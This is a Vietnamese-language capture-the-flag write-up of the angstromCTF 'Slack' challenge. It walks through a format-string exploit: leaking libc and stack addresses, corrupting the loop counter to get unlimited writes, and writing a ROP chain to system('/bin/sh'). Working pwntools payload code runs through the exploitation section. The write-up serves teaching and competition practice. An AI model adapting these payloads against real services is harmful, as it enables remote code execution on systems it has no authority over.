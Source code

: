 # Angstromctf - Slack

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
slack_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=55d689855d28e8006ed53304898ca66ed71a07a5, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
```

Tiếp đến đưa file vào ida-64bit

![main.png](images/main.png)

# 2. Phân tích 

Ở bài này cho ta nhập 3 lần và ta có nhận ra lỗi format strings tại `printf(format);`

Do số lượng ký tự được nhập vào là 13 ký tự nên ta không trực tiếp ghi địa chỉ nào đó để sửa được

Ta sẽ lợi dụng 3 lần fmt như sau:

```
    Lần 1: Leak địa chỉ
    
    Lần 2: Sửa pointer
    
    Lân 3: Sử dụng pointer
```

Ok vậy ta sửa và gi vào đâu?

Thấy số lượng lần sửa và ghi quá ít mà không có hàm `win()` và `onegadget` cũng không dùng được

-> Mình đã ghi vào giá trị loop i để ghi `rop_chain`

# 3. Khai thác

Bước 1: Leak libc, stack_addr

```
p.sendlineafter(b"Your message (to increase character limit, pay $99 to upgrade to Professional):", b"%21$p%25$p")
```

![gdb1.png](images/gdb1.png)

Sử dụng fmt test mình đã check được chuỗi nhập vào của ta ở stack thứ 14. Từ đó mình gdb để kiểm tra các giá trị còn lại

để từ đó leak libc và stack_addr

![i.png](images/i.png)

Khi có giá trị của stack ta có thể dễ dàng tính được địa chỉ của i.

![cmp.png](images/cmp.png)

Ở đây sẽ so sánh 4 bytes tại địa chỉ của i với 2

Mình sẽ bypass đoạn này bằng cách sửa byte tại vị trí cao nhất của 4 bytes này thành byte 0x80 khiến nó trở thành số

âm lớn nhất và ta có thể loop rất nhiều lần.

Bước 2: Sửa giá trị i

```
x_value = i_addr & 0xffff
p.sendafter(b"Your message (to increase character limit, pay $99 to upgrade to Professional):",b"%" + str(x_value).encode() + b"x%25$hn")
p.sendline(b"%128x%55$hhn")
```

![gdb2.png](images/gdb2.png)

Ở đây mình thấy tại vị trí thứ 25 có chứa 1 địa chỉ stack là `0x7fff2e21ce18`

-> mình sẽ sửa con trỏ tại vị trí đó là `0x7fff2e21d55c` thành địa chỉ của i+3 (sửa byte tại vị trí cao nhất) và sử dụng nó thôi

`0x7fff2e21d55c` ở vị trí thứ 55 và sử dụng `%hhn` sửa 1 byte

Bước 3: Ghi rop_chain

```
def rop_chain(addr, value):
    x_value2 = addr & 0xffff
    p.sendline(b"%" + str(x_value2).encode() + b"x%28$hn")
    x_value3 = value & 0xffff
    p.sendline(b"%" + str(x_value3).encode() + b"x%55$hn")
    x_value2 = addr+2 & 0xffff
    p.sendline(b"%" + str(x_value2).encode() + b"x%28$hn")
    x_value3 = (value & 0xffff0000) >> 4*4
    p.sendline(b"%" + str(x_value3).encode() + b"x%55$hn")
    x_value2 = addr+4 & 0xffff
    p.sendline(b"%" + str(x_value2).encode() + b"x%28$hn")
    x_value3 = (value & 0xffff00000000) >> 4*8
    p.sendline(b"%" + str(x_value3).encode() + b"x%55$n")
    

rop_chain(ret_addr, ret)
rop_chain(ret_addr+8, pop_rdi)
rop_chain(ret_addr+16, binsh)
rop_chain(ret_addr+24, system)
```

Ở đây mình cũng sẽ làm tương tự như ghi giá trị i nhưng do giá trị thanh ghi của các giá trị `rop_chain` quá lớn nên mình 

đã ghi 3 lần cho mỗi giá trị. 2 lần sử dụng %hn để ghi 2 bytes va 1 lần sử dụng %n để ghi 4 bytes (do mỗi giá trị `rop_chain` chỉ sử dụng 6 bytes giá trị nên mình dùng %n để ghi phần bytes trước nó thành 0 hết để tránh sai địa chỉ)

Bước 4: Break loop

Khi đã ghi đè `rop_chain` vào ret_addr rồi thì mình phải break vòng lặp. Mình đã sử dụng lại phần ghi bên trên để ghi nó thành số 

nguyên dương

```
p.sendafter(b"Your message (to increase character limit, pay $99 to upgrade to Professional):",b"%" + str(x_value).encode() + b"x%25$hn")
p.sendafter(b"Your message (to increase character limit, pay $99 to upgrade to Professional):",b"%10x%55$hhn%55$p")
```

![shell.png](images/shell.png)



